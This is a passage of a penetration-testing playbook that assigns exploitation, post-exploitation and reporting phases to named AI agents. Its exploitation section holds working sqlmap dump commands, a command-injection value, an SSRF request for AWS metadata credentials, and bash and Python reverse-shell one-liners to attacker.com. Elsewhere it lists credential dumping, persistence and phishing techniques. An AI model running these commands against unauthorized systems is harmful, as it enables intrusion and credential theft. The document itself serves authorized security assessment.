Create `01_vulnerability_analysis/02_api_security_testing.md`:
- API endpoint inventory
- Authentication mechanism analysis
- Authorization flaw findings
- Rate limiting assessment
- Input validation issues
- Data exposure findings
- API versioning problems

### Vector 1.3: Network Security

**🤖 AGENT**: `network-security-tester`
**OUTPUT**: `01_vulnerability_analysis/03_network_security_testing.md`
**DEPLOYMENT**: Wave 2 (parallel) - Can run simultaneously with Vectors 1.1-1.2, 1.4-1.5

**Testing Methodology**:

**Network Service Vulnerabilities**:
- SSH weak configurations/credentials
- RDP brute-force and BlueKeep testing
- FTP anonymous access and bounce attacks
- SMB vulnerabilities (EternalBlue, etc.)
- SMTP open relay testing
- DNS zone transfer testing
- NTP amplification testing
- Database direct access (MySQL, PostgreSQL, MongoDB)

**Network Infrastructure**:
- Router/switch default credentials
- SNMP community string enumeration
- VPN vulnerabilities
- Firewall rule bypass
- Network segmentation testing
- VLAN hopping
- ARP spoofing/poisoning
- Man-in-the-Middle attacks

**Wireless Network Security** (if applicable):
- WPA/WPA2/WPA3 security testing
- Evil twin access point attacks
- Rogue access point detection
- Client isolation testing
- Captive portal bypass
- WPS attack testing

**Tools & Techniques**:
- Nmap (service enumeration and vulnerability scanning)
- Metasploit (exploitation framework)
- Responder (credential capture)
- Aircrack-ng (wireless attacks)
- Wireshark (packet analysis)
- tcpdump (traffic capture)
- Ettercap (MitM attacks)
- Bettercap (network attacks)

**Documentation Requirements**:
Create `01_vulnerability_analysis/03_network_security_testing.md`:
- Network topology diagram
- Vulnerable services identified
- Segmentation weaknesses
- Encryption weaknesses
- Protocol vulnerabilities
- Credential exposure
- Network device vulnerabilities

### Vector 1.4: Cloud Infrastructure Security

**🤖 AGENT**: `cloud-infrastructure-security-tester`
**OUTPUT**: `01_vulnerability_analysis/04_cloud_security_testing.md`
**DEPLOYMENT**: Wave 2 (parallel) - Can run simultaneously with Vectors 1.1-1.3, 1.5

**Testing Methodology**:

**AWS Security Assessment**:
- S3 bucket misconfiguration (public access)
- IAM policy overpermissiveness
- Security group misconfigurations
- EC2 instance metadata service (IMDS) access
- Lambda function vulnerabilities
- RDS public exposure
- CloudTrail logging gaps
- EBS snapshot exposure

**Azure Security Assessment**:
- Storage account public access
- Azure AD misconfigurations
- VM network security group issues
- Key Vault access control
- Function App vulnerabilities
- SQL Database exposure
- Managed identity exploitation

**GCP Security Assessment**:
- Cloud Storage bucket permissions
- IAM role overpermissiveness
- Compute Engine vulnerabilities
- Cloud Functions security
- BigQuery dataset exposure
- Service account key leakage

**Multi-Cloud Issues**:
- Cross-cloud lateral movement
- Federated identity vulnerabilities
- API gateway misconfigurations
- Container registry exposure
- Kubernetes cluster misconfigurations

**Tools & Techniques**:
- Prowler (AWS security auditing)
- ScoutSuite (multi-cloud security)
- CloudMapper (AWS visualization)
- Pacu (AWS exploitation framework)
- MicroBurst (Azure enumeration)
- GCPBucketBrute (GCP storage enumeration)
- kube-hunter (Kubernetes vulnerabilities)
- Trivy (container scanning)

**Documentation Requirements**:
Create `01_vulnerability_analysis/04_cloud_security_testing.md`:
- Cloud resource inventory
- Misconfiguration findings
- IAM/RBAC issues
- Public exposure findings
- Encryption gaps
- Logging and monitoring weaknesses
- Compliance violations
- Cost optimization opportunities

### Vector 1.5: Container and Orchestration Security

**🤖 AGENT**: `container-orchestration-security-tester`
**OUTPUT**: `01_vulnerability_analysis/05_container_security_testing.md`
**DEPLOYMENT**: Wave 2 (parallel) - Can run simultaneously with Vectors 1.1-1.4

**Testing Methodology**:

**Container Security**:
- Base image vulnerabilities
- Hardcoded secrets in images
- Privileged container detection
- Container escape vulnerabilities
- Docker daemon exposure
- Registry authentication bypass

**Kubernetes Security**:
- RBAC misconfigurations
- Pod security policy violations
- Network policy weaknesses
- API server exposure
- etcd unprotected access
- Dashboard authentication bypass
- Service account token exploitation
- Admission controller bypass

**Tools & Techniques**:
- kube-bench (CIS Kubernetes benchmark)
- kube-hunter (Kubernetes vulnerabilities)
- Trivy (container vulnerability scanning)
- Anchore (container analysis)
- Clair (static container analysis)
- docker-bench-security (Docker security)
- Falco (runtime security monitoring)

**Documentation Requirements**:
Create `01_vulnerability_analysis/05_container_security_testing.md`:
- Container image vulnerabilities
- Kubernetes cluster misconfigurations
- RBAC issues
- Network segmentation problems
- Secret management weaknesses
- Workload security findings

### Vector 1.6: Mobile Application Security

**Testing Methodology** (if applicable):

**Client-Side Security**:
- Insecure data storage
- Weak cryptography implementation
- Code obfuscation assessment
- Root/jailbreak detection bypass
- Certificate pinning bypass
- Insecure communication
- Binary protection mechanisms

**Server-Side Security**:
- API security (see API Security section)
- Backend logic flaws
- Session management
- Authentication weaknesses

**Platform-Specific** (iOS/Android):
- iOS Keychain security
- Android SharedPreferences security
- Intent handling vulnerabilities
- Deep link hijacking
- WebView vulnerabilities
- Third-party SDK security

**Tools & Techniques**:
- MobSF (Mobile Security Framework)
- Frida (dynamic instrumentation)
- Objection (runtime mobile exploration)
- Burp Suite (API testing)
- Apktool (Android APK analysis)
- class-dump (iOS binary analysis)

**Documentation Requirements**:
Create `01_vulnerability_analysis/06_mobile_security_testing.md` (if applicable)

### Vector 1.7: Physical Security Assessment

**Testing Methodology** (if in scope):

**Physical Access Testing**:
- Badge cloning
- Tailgating/piggybacking
- Lock picking
- Social engineering for physical access
- Dumpster diving
- USB drop testing

**Hardware Security**:
- USB Rubber Ducky attacks
- Bash Bunny exploitation
- Raspberry Pi implants
- Network tap installation
- Hardware keyloggers
- RFID cloning/skimming

**Tools & Techniques**:
- USB Rubber Ducky
- Bash Bunny
- O.MG Cable
- Flipper Zero
- Proxmark3
- HackRF One
- WiFi Pineapple

**Documentation Requirements**:
Create `01_vulnerability_analysis/07_physical_security_testing.md` (if in scope)

### Vector 1.8: Social Engineering

**Testing Methodology** (if in scope):

**Phishing Campaigns**:
- Email phishing
- Spear phishing
- SMS phishing (smishing)
- Voice phishing (vishing)
- Credential harvesting
- Malware delivery simulation

**Pretexting**:
- Technical support impersonation
- Vendor impersonation
- Executive impersonation
- Physical access social engineering

**Open Source Intelligence Utilization**:
- LinkedIn employee reconnaissance
- Social media profiling
- Email pattern identification
- Organizational structure mapping

**Tools & Techniques**:
- Gophish (phishing framework)
- Social-Engineer Toolkit (SET)
- King Phisher (phishing campaign toolkit)
- Evilginx2 (advanced phishing)

**Documentation Requirements**:
Create `01_vulnerability_analysis/08_social_engineering_testing.md` (if in scope)

### Comprehensive Vulnerability Scoring Matrix

For each vulnerability discovered, calculate:

**CVSS v3.1 Score** (0.0 - 10.0):
```
Base Score Components:
- Attack Vector (Network/Adjacent/Local/Physical)
- Attack Complexity (Low/High)
- Privileges Required (None/Low/High)
- User Interaction (None/Required)
- Scope (Unchanged/Changed)
- Confidentiality Impact (None/Low/High)
- Integrity Impact (None/Low/High)
- Availability Impact (None/Low/High)
```

**Exploitability Assessment**:
- Exploit Maturity: None/PoC/Functional/High
- Exploit Available: Yes/No
- Attack Complexity: Low/Medium/High
- Required Resources: Minimal/Moderate/Significant

**Business Impact Score** (1-5):
```
5 = Critical business function disruption, massive data breach
4 = Significant business impact, substantial data exposure
3 = Moderate business impact, limited data exposure
2 = Minor business inconvenience, minimal data exposure
1 = Negligible business impact, no data exposure
```

**Final Priority Score**:
```
Priority = (CVSS Score × 0.4) + (Exploitability × 0.3) + (Business Impact × 0.3)
```

**Documentation Requirements**:
Create `01_vulnerability_analysis/09_vulnerability_scoring_matrix.md`:
- Complete vulnerability inventory with scores
- Prioritization matrix
- Risk heatmap
- Remediation timeline recommendations

**Risk Heatmap Mermaid Diagram**:


---

## PHASE 2: EXPLOITATION & IMPACT VALIDATION

### Objective
Validate identified vulnerabilities through ethical exploitation to demonstrate real-world impact and assess the true severity of findings. Document exploitation paths and potential attacker capabilities.

### Step 2.1: Exploitation Strategy Development

**🤖 AGENT**: `exploitation-strategy-planner`
**OUTPUT**: `02_exploitation/01_exploitation_strategy.md`
**DEPLOYMENT**: Wave 3 (sequential) - Must complete before Step 2.2

**Analysis Process**:
For each high-severity vulnerability, develop exploitation strategy:

**Exploitation Planning**:
1. Define exploitation objective (data access, system compromise, privilege escalation)
2. Identify prerequisites (credentials, network position, user interaction)
3. Plan exploitation steps and sequence
4. Prepare fallback methods
5. Plan detection evasion techniques
6. Document expected outcomes
7. Prepare rollback/cleanup procedures

**Safety Considerations**:
- Verify testing authorization for exploitation attempts
- Test in isolated/staging environment first when possible
- Implement rate limiting to avoid DoS
- Prepare incident response if something goes wrong
- Document all exploitation attempts
- Maintain communication with client during exploitation

**Documentation Requirements**:
Create `02_exploitation/01_exploitation_strategy.md`:
- Vulnerability selection rationale
- Exploitation objectives
- Step-by-step exploitation plan
- Required tools and resources
- Risk mitigation measures
- Success criteria

### Step 2.2: Active Exploitation

**🤖 AGENT**: `active-exploitation-specialist`
**OUTPUT**: `02_exploitation/02_exploitation_execution.md`
**DEPLOYMENT**: Wave 3 (sequential) - Requires Step 2.1 completion, must complete before Step 2.3

**Exploitation Categories**:

**Web Application Exploitation**:
- SQL Injection → Database compromise
- RCE vulnerabilities → Shell access
- File upload → Webshell deployment
- XXE → File system access
- SSRF → Internal network access
- Deserialization → Code execution

**Network Exploitation**:
- Service vulnerabilities → System access
- Credential reuse → Lateral movement
- Protocol weaknesses → MitM attacks
- Misconfigurations → Privilege escalation

**Cloud Exploitation**:
- IAM misconfigurations → Privilege escalation
- Metadata service access → Credential theft
- Storage misconfigurations → Data breach
- Lambda/Function vulnerabilities → Code execution

**API Exploitation**:
- Broken authentication → Account takeover
- IDOR → Unauthorized data access
- Mass assignment → Privilege escalation
- Rate limiting bypass → Resource exhaustion

**Common Exploitation Techniques**:

```bash
# SQL Injection Exploitation
sqlmap -u "http://target.com/page?id=1" --batch --dbs
sqlmap -u "http://target.com/page?id=1" -D database --tables
sqlmap -u "http://target.com/page?id=1" -D database -T users --dump

# Remote Code Execution
# Upload webshell via file upload vulnerability
# Access: http://target.com/uploads/shell.php?cmd=whoami

# Command Injection
# Parameter: ip=8.8.8.8; whoami
# Result: www-data

# SSRF Exploitation
# Parameter: url=http://169.254.169.254/latest/meta-data/iam/security-credentials/
# Retrieve AWS credentials

# Reverse Shell
bash -i >& /dev/tcp/attacker.com/4444 0>&1
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("attacker.com",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

**Tools & Techniques**:
- Metasploit Framework (exploitation automation)
- SQLmap (SQL injection exploitation)
- Burp Suite Intruder (automated attacks)
- Custom exploit scripts (Python, Bash)
- Reverse shells (netcat, Metasploit)
- Privilege escalation scripts (LinPEAS, WinPEAS)

**Documentation Requirements**:
Create `02_exploitation/02_exploitation_results.md`:
- Successfully exploited vulnerabilities
- Exploitation proof-of-concept
- Screenshots and evidence
- Commands executed
- Data accessed
- Systems compromised
- Impact demonstration

### Step 2.3: Post-Exploitation & Lateral Movement

**🤖 AGENT**: `post-exploitation-specialist`
**OUTPUT**: `02_exploitation/03_post_exploitation.md`
**DEPLOYMENT**: Wave 3 (sequential) - Requires Step 2.2 completion, must complete before Step 2.4

**Analysis Process**:
After gaining initial access, assess lateral movement and privilege escalation potential:

**System Enumeration**:
- Operating system and kernel version
- Running processes and services
- Network connections and routing
- Installed software and patches
- User accounts and privileges
- Scheduled tasks and cron jobs
- Sensitive files and credentials

**Privilege Escalation**:
- SUID binaries exploitation
- Kernel exploits
- Misconfigured sudo rules
- Weak file permissions
- Service vulnerabilities
- Docker escape techniques
- Windows privilege escalation (UAC bypass, token manipulation)

**Credential Harvesting**:
- Password files (/etc/shadow, SAM database)
- Configuration files with credentials
- Browser stored passwords
- SSH keys
- Database credentials
- Cloud credentials (AWS keys, Azure tokens)
- Credential dumping (Mimikatz, hashdump)

**Lateral Movement**:
- Pass-the-Hash attacks
- Pass-the-Ticket (Kerberos)
- Remote code execution on other hosts
- Pivoting through compromised systems
- Domain escalation (Active Directory)
- Cloud account pivoting

**Data Exfiltration Simulation** (with permission):
- Identify sensitive data
- Demonstrate exfiltration methods
- Test DLP effectiveness
- Measure detection capabilities

**Persistence Mechanisms** (document but don't implement without explicit permission):
- Backdoor accounts
- Scheduled tasks
- Registry modifications
- Web shells
- SSH keys

**Tools & Techniques**:
- LinPEAS/WinPEAS (privilege escalation enumeration)
- Mimikatz (credential dumping)
- BloodHound (Active Directory mapping)
- Responder (credential capture)
- Evil-WinRM (Windows remote management)
- Proxychains (pivoting)
- Chisel (tunneling)

**Documentation Requirements**:
Create `02_exploitation/03_post_exploitation.md`:
- System enumeration results
- Privilege escalation paths
- Credentials obtained
- Lateral movement possibilities
- Network segmentation bypass
- Domain escalation paths (if applicable)
- Data access capabilities
- Persistence mechanism analysis

### Step 2.4: Attack Chain Mapping

**🤖 AGENT**: `attack-chain-mapper`
**OUTPUT**: `02_exploitation/04_attack_chains.md`
**DEPLOYMENT**: Wave 3 (sequential) - Requires Step 2.3 completion

**Analysis Process**:
Map complete attack chains from initial access to objective achievement:

**Kill Chain Analysis**:
1. **Reconnaissance**: Information gathering methods
2. **Weaponization**: Exploit preparation
3. **Delivery**: Attack vector utilized
4. **Exploitation**: Vulnerability exploited
5. **Installation**: Persistence established
6. **Command & Control**: Communication channel
7. **Actions on Objectives**: Data theft, service disruption, etc.

**MITRE ATT&CK Mapping**:
Document techniques used at each stage:
- Initial Access (T1190, T1078, etc.)
- Execution (T1059, T1203, etc.)
- Persistence (T1053, T1547, etc.)
- Privilege Escalation (T1068, T1548, etc.)
- Defense Evasion (T1070, T1562, etc.)
- Credential Access (T1003, T1110, etc.)
- Discovery (T1082, T1018, etc.)
- Lateral Movement (T1021, T1080, etc.)
- Collection (T1005, T1039, etc.)
- Exfiltration (T1041, T1048, etc.)

**Documentation Requirements**:
Create `02_exploitation/04_attack_chains.md`:
- Complete attack chain diagrams
- MITRE ATT&CK technique mapping
- Alternative attack paths
- Defense bypass techniques used
- Time-to-compromise metrics

**Attack Chain Mermaid Diagram**:


---

## PHASE 3: RISK ASSESSMENT & PRIORITIZATION

### Objective
Assess real-world risk of all findings, prioritize based on exploitability and business impact, and create actionable remediation roadmap.

### Step 3.1: Comprehensive Risk Scoring

**🤖 AGENT**: `comprehensive-risk-scorer`
**OUTPUT**: `03_risk_assessment/01_comprehensive_scoring.md`
**DEPLOYMENT**: Wave 4 (parallel) - Can run simultaneously with Steps 3.2-3.3

**Scoring Framework**:

**Technical Severity** (CVSS v3.1):
- **Critical (9.0-10.0)**: Immediate exploitation, severe impact
- **High (7.0-8.9)**: Likely exploitation, significant impact
- **Medium (4.0-6.9)**: Possible exploitation, moderate impact
- **Low (0.1-3.9)**: Difficult exploitation, limited impact

**Exploitability Factors**:
- **Attack Vector**: Network (3), Adjacent (2), Local (1), Physical (0.5)
- **Attack Complexity**: Low (3), Medium (2), High (1)
- **Privileges Required**: None (3), Low (2), High (1)
- **User Interaction**: None (3), Required (1)
- **Exploit Availability**: Public exploit (3), PoC exists (2), None (1)

**Business Impact Factors**:
- **Data Sensitivity**: Critical PII/Financial (5), Sensitive (3), Public (1)
- **System Criticality**: Core business (5), Important (3), Non-critical (1)
- **Regulatory Impact**: Major compliance violation (5), Minor (3), None (1)
- **Reputation Impact**: Severe (5), Moderate (3), Minimal (1)
- **Financial Impact**: >$1M (5), $100K-$1M (3), <$100K (1)

**Threat Intelligence Factors**:
- **Active Exploitation**: In-the-wild exploitation (5), Targeted (3), None (1)
- **Threat Actor Interest**: APT targets (5), Opportunistic (3), Unlikely (1)
- **Patch Availability**: No patch available (5), Patch available (2), N/A (1)

**Final Risk Score Calculation**:
```
Risk Score = (
    Technical Severity × 0.30 +
    Exploitability × 0.25 +
    Business Impact × 0.30 +
    Threat Intelligence × 0.15
) / Maximum Possible Score × 10
```

**Risk Rating**:
- **10.0-9.0**: **CRITICAL** - Exploit immediately available, severe business impact
- **8.9-7.0**: **HIGH** - Readily exploitable, significant business impact
- **6.9-4.0**: **MEDIUM** - Moderate exploitation difficulty, moderate impact
- **3.9-0.1**: **LOW** - Difficult to exploit or minimal impact

**Documentation Requirements**:
Create `03_risk_assessment/01_risk_scoring.md`:
- Detailed risk scoring for all findings
- Risk score calculation methodology
- Supporting evidence for scores
- Comparison with industry benchmarks

### Step 3.2: Remediation Prioritization

**🤖 AGENT**: `remediation-prioritizer`
**OUTPUT**: `03_risk_assessment/02_remediation_priorities.md`
**DEPLOYMENT**: Wave 4 (parallel) - Can run simultaneously with Steps 3.1, 3.3

**Prioritization Framework**:

**P0 - Critical Priority** (Immediate - 7 days):
- CVSS 9.0+ with public exploits
- Active exploitation in the wild
- Critical systems with no compensating controls
- Regulatory compliance violations (immediate sanctions)
- Data breach imminent scenarios

**P1 - High Priority** (14 days):
- CVSS 7.0-8.9 with high exploitability
- Critical systems with minimal controls
- Credential storage weaknesses
- Privilege escalation paths
- Significant compliance gaps

**P2 - Medium Priority** (30 days):
- CVSS 4.0-6.9 with medium exploitability
- Non-critical systems with vulnerabilities
- Defense-in-depth improvements
- Moderate compliance issues

**P3 - Low Priority** (60-90 days):
- CVSS 0.1-3.9 or low exploitability
- Hardening recommendations
- Best practice implementations
- Minor compliance improvements

**Remediation Sequencing**:
Consider dependencies when prioritizing:
1. Fix root causes before symptoms
2. Address authentication before authorization
3. Secure infrastructure before applications
4. Implement detection before prevention
5. Quick wins to reduce attack surface rapidly

**Documentation Requirements**:
Create `03_risk_assessment/02_remediation_priorities.md`:
- Prioritized vulnerability list
- Remediation timeline
- Dependency considerations
- Resource requirements
- Quick win opportunities

**Priority Mermaid Diagram**:


### Step 3.3: Compensating Controls Analysis

**🤖 AGENT**: `compensating-controls-analyst`
**OUTPUT**: `03_risk_assessment/03_compensating_controls.md`
**DEPLOYMENT**: Wave 4 (parallel) - Can run simultaneously with Steps 3.1-3.2

**Analysis Process**:
For each high-risk vulnerability, identify temporary compensating controls:

**Compensating Control Types**:
- **Network Controls**: Firewall rules, network segmentation, IP whitelisting
- **Application Controls**: WAF rules, rate limiting, input validation
- **Monitoring Controls**: Enhanced logging, alerting, SIEM rules
- **Administrative Controls**: Access restrictions, mandatory approvals, auditing
- **Procedural Controls**: Manual verification, additional reviews

**Documentation Requirements**:
Create `03_risk_assessment/03_compensating_controls.md`:
- Vulnerability-to-control mapping
- Control effectiveness assessment
- Implementation guidance
- Monitoring requirements
- Sunset timeline (when permanent fix is in place)

---

## PHASE 4: COMPREHENSIVE REPORTING & DOCUMENTATION

### Objective
Create actionable, evidence-based reports tailored to different audiences with clear remediation guidance.

### Step 4.1: Executive Summary Report

**🤖 AGENT**: `executive-report-writer`
**OUTPUT**: `04_reporting/01_executive_summary.md`
**DEPLOYMENT**: Wave 5 (parallel) - Can run simultaneously with Steps 4.2-4.3

**Target Audience**: C-suite, Board, Business Stakeholders

**Report Structure**:

**1. Executive Overview** (1 page):
- Testing scope and methodology
- Overall security posture assessment
- High-level findings summary
- Business impact assessment
- Compliance implications

**2. Risk Dashboard**:
- Vulnerability count by severity
- Risk heatmap
- Attack surface summary
- Comparative metrics (industry benchmarks)
- Trend analysis (if repeat assessment)

**3. Critical Findings** (2-3 pages):
- Top 5 critical vulnerabilities in business terms
- Real-world attack scenarios
- Potential business impact (financial, reputational, regulatory)
- Recommended actions with timeline

**4. Strategic Recommendations**:
- Security program improvements
- Investment priorities
- Compliance roadmap
- Continuous monitoring recommendations

**5. Appendix**:
- Methodology overview
- Testing timeline
- Scope boundaries
- Regulatory framework alignment

**Documentation Requirements**:
Create `04_reporting/01_executive_summary.md`:
- Non-technical language
- Business impact focus
- Visual dashboards and charts
- Clear action items
- ROI justification for remediation

**Executive Dashboard Visualization**:


### Step 4.2: Technical Report

**🤖 AGENT**: `technical-report-writer`
**OUTPUT**: `04_reporting/02_technical_report.md`
**DEPLOYMENT**: Wave 5 (parallel) - Can run simultaneously with Steps 4.1, 4.3

**Target Audience**: Security team, IT team, Developers, DevOps

**Report Structure**:

**1. Methodology** (5-10 pages):
- Testing standards followed (PTES, OWASP, NIST)
- Tools and techniques used
- Testing timeline and phases
- Scope and boundaries
- Testing constraints and limitations
- Rules of engagement

**2. Attack Surface Analysis**:
- Network architecture diagram
- Application architecture diagram
- Technology stack inventory
- External vs. internal attack surface
- User roles and access levels
- Data flow diagrams

**3. Detailed Findings** (50-200 pages depending on scope):

For each vulnerability:

**Finding Template**:
```markdown
### [VULN-ID]: [Vulnerability Title]

**Severity**: Critical/High/Medium/Low
**CVSS Score**: X.X (AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H)
**CWE**: CWE-XXX - [Weakness Name]
**OWASP**: A0X - [Category]
**MITRE ATT&CK**: [Technique ID]

**Affected Components**:
- URL/Service: [Specific location]
- Parameter/Component: [Specific parameter]
- Version: [If applicable]

**Description**:
[Detailed technical description of the vulnerability]

**Proof of Concept**:
[Step-by-step reproduction steps with evidence]

Request:
```http
POST /api/users HTTP/1.1
Host: target.com
Content-Type: application/json

{"user_id": 1, "role": "admin"}
```

Response:
```http
HTTP/1.1 200 OK
Content-Type: application/json

{"message": "User updated to admin role"}
```

**Impact**:
- Confidentiality: [Impact level and description]
- Integrity: [Impact level and description]
- Availability: [Impact level and description]
- Business Impact: [Real-world consequences]

**Exploitation Scenario**:
[Real-world attack scenario]

**Remediation**:
1. **Immediate Action**: [Quick fix or compensating control]
2. **Permanent Fix**: [Complete remediation guidance]
3. **Code Example**: [Secure code sample if applicable]
4. **Testing**: [How to verify the fix]

**References**:
- [CWE Link]
- [OWASP Documentation]
- [CVE Details if applicable]
- [Vendor Advisory]

**Evidence**:
[Screenshots, logs, packet captures]
```

**4. Attack Chain Documentation**:
- Successful attack paths mapped
- Lateral movement opportunities
- Privilege escalation paths
- Data access scenarios
- MITRE ATT&CK Navigator matrix

**5. Remediation Guidance**:
- Prioritized remediation roadmap
- Detailed fix recommendations per finding
- Code-level fixes with examples
- Architecture recommendations
- Security controls to implement
- Retest recommendations

**6. Appendices**:
- Complete vulnerability listing
- Tools used with versions
- Raw scan results
- Network diagrams
- Configuration files reviewed
- Test data

**Documentation Requirements**:
Create `04_reporting/02_technical_report.md`:
- Comprehensive technical details
- Reproducible proof-of-concepts
- Evidence-based findings
- Actionable remediation guidance
- Code examples and secure alternatives

### Step 4.3: Remediation Tracking Report

**🤖 AGENT**: `remediation-tracking-coordinator`
**OUTPUT**: `04_reporting/03_remediation_tracking.md`
**DEPLOYMENT**: Wave 5 (parallel) - Can run simultaneously with Steps 4.1-4.2

**Target Audience**: Security team, Project managers

**Report Structure**:

**Vulnerability Tracking Matrix**:
| ID | Title | Severity | Status | Owner | ETA | Verification Date |
|----|-------|----------|--------|-------|-----|-------------------|
| VULN-001 | SQL Injection | Critical | In Progress | Dev Team | 2025-01-15 | Pending |
| VULN-002 | XSS in Search | High | Fixed | Frontend Team | 2025-01-10 | 2025-01-12 |

**Status Definitions**:
- **Open**: Not yet started
- **In Progress**: Remediation underway
- **Fixed**: Developer claims fix complete
- **Verified**: Fix confirmed through retest
- **Accepted Risk**: Business decision to accept
- **False Positive**: Finding determined invalid

**Documentation Requirements**:
Create `04_reporting/03_remediation_tracking.md`:
- Tracking matrix
- Status updates
- Blocker identification
- Dependency tracking
- Retest scheduling

### Step 4.4: Compliance Report

**Target Audience**: Compliance team, Auditors, Regulators

**Report Structure** (if applicable):

**Compliance Mapping**:
Map findings to relevant compliance requirements:
- PCI-DSS requirements
- HIPAA safeguards
- SOC 2 Trust Service Criteria
- ISO 27001 controls
- GDPR requirements
- NIST Cybersecurity Framework
- CIS Controls

**Gap Analysis**:
Identify compliance gaps and remediation requirements

**Documentation Requirements**:
Create `04_reporting/04_compliance_report.md` (if applicable):
- Compliance framework mapping
- Gap analysis
- Remediation requirements
- Timeline to compliance
- Audit trail documentation

### Step 4.5: Trend Analysis Report

**Target Audience**: Security leadership

**Report Structure** (for repeat assessments):

**Metrics Over Time**:
- Vulnerability count trends
- Mean time to remediate
- Reoccurring vulnerabilities
- Security posture improvement
- New vulnerability introduction rate

**Comparative Analysis**:
- Year-over-year comparison
- Quarter-over-quarter trends
- Industry benchmark comparison
- Security maturity progress

**Documentation Requirements**:
Create `04_reporting/05_trend_analysis.md` (if applicable):
- Historical data visualization
- Trend analysis
- Predictive insights
- Program effectiveness metrics

---

## PHASE 5: VERIFICATION & CONTINUOUS IMPROVEMENT

### Objective
Establish verification protocols to ensure vulnerabilities are properly remediated and implement continuous security testing.

### Step 5.1: Remediation Verification

**🤖 AGENT**: `retest-verification-specialist`
**OUTPUT**: `05_verification/01_retest_results.md`
**DEPLOYMENT**: Wave 6 (sequential first) - Must complete before Steps 5.2-5.3

**Verification Process**:

**Retest Planning**:
1. Schedule retest after remediation timeline
2. Prioritize critical and high findings first
3. Coordinate with development team
4. Prepare test cases specific to fixes
5. Plan regression testing

**Verification Methods**:
- **Manual Retest**: Repeat original exploitation attempts
- **Automated Scanning**: Run vulnerability scanners
- **Code Review**: Review implemented fixes
- **Configuration Review**: Verify security settings
- **Architecture Review**: Validate design changes

**Verification Outcomes**:
- **Remediated**: Vulnerability no longer exploitable
- **Partially Remediated**: Risk reduced but not eliminated
- **Not Remediated**: Vulnerability still present
- **Introduced New Issues**: Fix created new vulnerabilities

**Documentation Requirements**:
Create `05_verification/01_retest_results.md`:
- Retest methodology
- Verification results per finding
- New issues discovered during retest
- Residual risk assessment
- Sign-off recommendations

### Step 5.2: Continuous Security Testing Program

**🤖 AGENT**: `continuous-testing-strategist`
**OUTPUT**: `05_verification/02_continuous_testing_program.md`
**DEPLOYMENT**: Wave 6 (parallel after 5.1) - Can run simultaneously with Step 5.3, requires Step 5.1 completion

**Program Design**:

**Continuous Vulnerability Management**:
- Automated vulnerability scanning schedule
- Continuous DAST in CI/CD pipeline
- Container image scanning
- Dependency vulnerability monitoring
- Configuration drift detection
- Security regression testing

**Periodic Deep Assessments**:
- Quarterly focused penetration tests
- Annual comprehensive assessments
- Post-major-release security testing
- M&A security due diligence
- Third-party vendor assessments

**Purple Team Operations**:
- Collaborative red team/blue team exercises
- Detection capability validation
- Incident response testing
- Threat hunting integration
- Continuous improvement cycles

**Bug Bounty Program** (optional):
- Scope definition
- Reward structure
- Researcher coordination
- Triage process
- Remediation workflow

**Documentation Requirements**:
Create `05_verification/02_continuous_testing_program.md`:
- Testing schedule and cadence
- Automated testing integration
- Roles and responsibilities
- Escalation procedures
- Metrics and KPIs

### Step 5.3: Security Metrics & KPIs

**🤖 AGENT**: `security-metrics-analyst`
**OUTPUT**: `05_verification/03_security_metrics.md`
**DEPLOYMENT**: Wave 6 (parallel after 5.1) - Can run simultaneously with Step 5.2, requires Step 5.1 completion

**Key Performance Indicators**:

**Vulnerability Metrics**:
- Total vulnerability count by severity
- New vulnerabilities introduced
- Vulnerabilities remediated
- Mean time to detect (MTTD)
- Mean time to remediate (MTTR)
- Vulnerability density (vulns per 1000 LOC)
- Critical vulnerability backlog

**Coverage Metrics**:
- Attack surface coverage (%)
- Code coverage by SAST (%)
- Automated testing coverage
- Manual testing frequency
- Asset inventory completeness

**Remediation Metrics**:
- SLA compliance rate
- Reopen rate
- Fix verification rate
- False positive rate
- Accepted risk count

**Program Effectiveness**:
- Security posture score (0-100)
- Risk reduction rate
- Industry benchmark comparison
- Detection capability maturity
- Incident reduction rate

**Documentation Requirements**:
Create `05_verification/03_security_metrics.md`:
- KPI definitions
- Measurement methodology
- Dashboard specifications
- Reporting cadence
- Target benchmarks

**Metrics Dashboard**:


### Step 5.4: Lessons Learned & Process Improvement

**Analysis Process**:

**Post-Assessment Review**:
- What went well?
- What could be improved?
- Tools and techniques effectiveness
- Time management and efficiency
- Communication effectiveness
- Documentation quality

**Methodology Refinement**:
- Update testing procedures
- Enhance tool configurations
- Refine reporting templates
- Improve automation scripts
- Update vulnerability databases

**Knowledge Sharing**:
- Internal team training
- Security awareness programs
- Developer security training
- Best practice documentation
- Threat intelligence sharing

**Documentation Requirements**:
Create `05_verification/04_lessons_learned.md`:
- Post-assessment retrospective
- Process improvement recommendations
- Tool and technique updates
- Training needs identified
- Knowledge base updates

---

## ADVANCED TESTING TECHNIQUES

### AI-Assisted Security Testing

**AI/ML Integration**:
- Automated vulnerability pattern recognition
- Behavioral anomaly detection
- Intelligent fuzzing with ML
- Automated exploit generation
- Predictive vulnerability analysis
- Natural language security query analysis

**AI Security Tools**:
- GitHub Copilot for secure code suggestions
- ML-based SAST tools
- AI-powered threat intelligence
- Automated security orchestration

### Red Team Simulation

**Advanced Persistent Threat (APT) Emulation**:
- Long-term persistent access simulation
- Command & control infrastructure
- Data exfiltration over long periods
- Living-off-the-land techniques
- Detection evasion and anti-forensics
- Supply chain attack simulation

**Assumed Breach Scenario**:
- Start with assumed initial compromise
- Focus on lateral movement and detection
- Purple team collaboration
- Incident response validation

### Purple Team Exercises

**Collaborative Security**:
- Red team executes attacks
- Blue team attempts detection and response
- Real-time collaboration and learning
- Detection rule refinement
- Incident response improvement
- Continuous improvement cycles

### Threat-Informed Testing

**MITRE ATT&CK-Based Testing**:
- Map tests to specific ATT&CK techniques
- Emulate known threat actor TTPs
- Validate detection coverage
- Identify gaps in security controls

---

## INDUSTRY-SPECIFIC CONSIDERATIONS

### Financial Services
- PCI-DSS compliance testing
- Payment system security
- Transaction integrity testing
- Financial data protection
- API security (Open Banking)

### Healthcare
- HIPAA compliance validation
- PHI protection testing
- Medical device security
- EHR system security
- Telehealth platform security

### E-Commerce
- Payment gateway security
- Customer data protection
- Inventory system security
- Supply chain security
- Third-party integration security

### SaaS/Cloud Services
- Multi-tenancy isolation
- Data segregation
- API security at scale
- Authentication mechanisms
- Subscription system security

